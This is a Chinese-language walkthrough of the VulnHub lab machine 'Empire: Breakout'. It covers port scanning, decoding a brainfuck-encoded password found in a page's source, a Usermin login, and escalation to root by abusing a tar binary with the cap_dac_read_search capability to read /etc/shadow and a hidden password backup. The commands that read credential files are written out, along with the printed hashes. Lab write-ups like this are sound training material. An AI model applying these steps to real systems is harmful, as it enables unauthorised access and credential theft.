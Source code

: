 # Empire: Breakout

2024-5-24 https://www.vulnhub.com/entry/empire-breakout,751/

difficulty: Easy

## IP

192.168.5.30

## Scan

Open Port -> 80,139,445,10000,20000

```
PORT      STATE SERVICE     VERSION
80/tcp    open  http        Apache httpd 2.4.51 ((Debian))
|_http-server-header: Apache/2.4.51 (Debian)
|_http-title: Apache2 Debian Default Page: It works
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
10000/tcp open  http        MiniServ 1.981 (Webmin httpd)
|_http-title: 200 &mdash; Document follows
20000/tcp open  http        MiniServ 1.830 (Webmin httpd)
|_http-title: 200 &mdash; Document follows
```

先看看 smb，有没有暴露信息。没有映射信息，找到了一个用户: cyber

看看 80 web 上有什么信息，默认页面是 apache，使用 gobuster 看看有什么，什么都没有。在 apache 的源码上发现了一些提示：

```
don't worry no one will get here, it's safe to share with you my access. Its encrypted :)

++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>++++++++++++++++.++++.>>+++++++++++++++++.----.<++++++++++.-----------.>-----------.++++.<<+.>-.--------.++++++++++++++++++++.<------------.>>---------.<<++++++.++++++.
```

是 brainfuck 的编码，进行解码为 http://www.hiencode.com/brain.html ：

```
.2uqPEfj3D<P'a-3
```

看看 10000 和 20000 端口，一个显示了 WebMin ,另一个显示了 UserMin，都是 Webmin 搭建的。

上面我们得到了一个密码，使用 webmin 默认的账户 admin 或 root，尝试登陆下 10000 和 20000 端口的系统，都不行。上面我们还枚举到一个 linux 的系统用户 cyber ，看看这个用户是不是能登陆进去。结果 cyber 可以登陆 20000 这个端口。

进入到系统后，左下角有个 Command Shell(Alt+k) 可以进入系统 shell 功能。

得到了 user flag：

```
[cyber@breakout ~]$ cat user.txt
3mp!r3{You_Manage_To_Break_To_My_Secure_Access}
```

寻找提权路径，sudo、suid、crontab 等都没发现信息，getcap 中发现了内容：

```
/home/cyber/tar cap_dac_read_search=ep
```

进行利用：

```
/home/cyber/tar -czf /tmp/shadow.tar.gz /etc/shadow
cd /tmp
/home/cyber/tar -zxf shadow.tar.gz
```

解压后，得到了 shadow 文件：

```
root:$y$j9T$M3BDdkxYOlVM6ECoqwUFs.$Wyz40CNLlZCFN6Xltv9AAZAJY5S3aDvLXp0tmJKlk6A:18919:0:99999:7:::
...
cyber:$y$j9T$x6sDj5S/H0RH4IGhi0c6x0$mIPyCIactTA3/gxTaI7zctfCt2.EOGXTOW4X9efAVW4:18919:0:99999:7:::
```

尝试破解 root 的密码，没找到明文密码。

经过进一步枚举，发现 /var/backups/.old_pass.bak 这个文件，可能里面存有 passwd，cyber 没有读取权限，继续用上面的方法读取出来：

```
cd /var/backups && /home/cyber/tar -czf /tmp/pass.tar.gz .old_pass.bak
cd /tmp && /home/cyber/tar -xzf pass.tar.gz

cyber@breakout:/tmp$ cat .old_pass.bak
Ts&4&YurgtRX(=~h
```

看看是不是 root 的密码吧，su root 切换成功：

```
root@breakout:~# cat rOOt.txt
3mp!r3{You_Manage_To_BreakOut_From_My_System_Congratulation}

Author: Icex64 & Empire Cybersecurity
```
